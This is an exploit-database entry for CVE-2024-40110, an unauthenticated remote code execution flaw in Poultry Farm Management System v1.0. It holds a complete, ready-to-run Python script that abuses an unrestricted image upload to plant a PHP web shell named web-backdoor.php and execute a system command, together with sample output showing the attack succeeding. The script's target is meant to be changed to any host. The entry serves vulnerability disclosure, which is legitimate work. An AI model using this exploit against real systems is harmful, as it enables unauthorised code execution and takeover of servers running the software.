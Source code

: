 # Exploit Title: Unauthenticated Remote Code Execution (RCE) - Poultry Farm Management System v1.0
# Date: 24-06-2024
# CVE: CVE-2024-40110 
# EDB-ID: [52053](https://www.exploit-db.com/exploits/52053)
# Exploit Author: Jerry Thomas (w3bn00b3r)
# Vendor Homepage: https://www.sourcecodester.com/php/15230/poultry-farm-management-system-free-download.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/Redcock-Farm.zip
# Category: Web Application
# Version: 1.0
# Tested on: Windows 10 | Xampp v3.3.0
# Vulnerable endpoint: http://localhost/farm/product.php

# Exploit Code:

```
import requests
from colorama import Fore, Style, init

# Initialize colorama
init(autoreset=True)

def upload_backdoor(target):
    upload_url = f"{target}/farm/product.php"
    shell_url = f"{target}/farm/assets/img/productimages/web-backdoor.php"

    # Prepare the payload
    payload = {
        'category': 'CHICKEN',
        'product': 'rce',
        'price': '100',
        'save': ''
    }

    # PHP code to be uploaded
    command = "hostname"
    data = f"<?php system('{command}');?>" 

    # Prepare the file data
    files = {
        'productimage': ('web-backdoor.php', data, 'application/x-php')
    }

    try:
        print("Sending POST request to:", upload_url)
        response = requests.post(upload_url, files=files, data=payload, verify=False)

        if response.status_code == 200:
            print("\nResponse status code:", response.status_code)
            print(f"Shell has been uploaded successfully: {shell_url}")

            # Make a GET request to the shell URL to execute the command
            shell_response = requests.get(shell_url, verify=False)
            print("Command output:", Fore.GREEN + shell_response.text.strip())
        else:
            print(f"Failed to upload shell. Status code: {response.status_code}")
            print("Response content:", response.text)
    except requests.RequestException as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    target = "http://localhost"  # Change this to your target
    upload_backdoor(target)

```

# Video Poc
```
Link - https://drive.google.com/file/d/1gOXhAjtUuIJHGz5SEpz3Tu50CEzoiDw_/view?usp=drive_link
```

# Output
> Execute - python3 exploit.py or python exploit.py
```
Sending POST request to: http://localhost/farm/product.php
Response status code: 200
Shell has been uploaded successfully: http://localhost/farm/assets/img/productimages/web-backdoor.php
Command output: DESKTOP-EGV8AH5
```

# References 
> To develop exploit code:
- https://github.com/0xConstant/Gym-Management-1.0-unauthenticated-RCE/blob/main/exploit.py
- https://github.com/h3x0crypt/PHPUnit-RCE/blob/master/PHPunit-RCE.php 
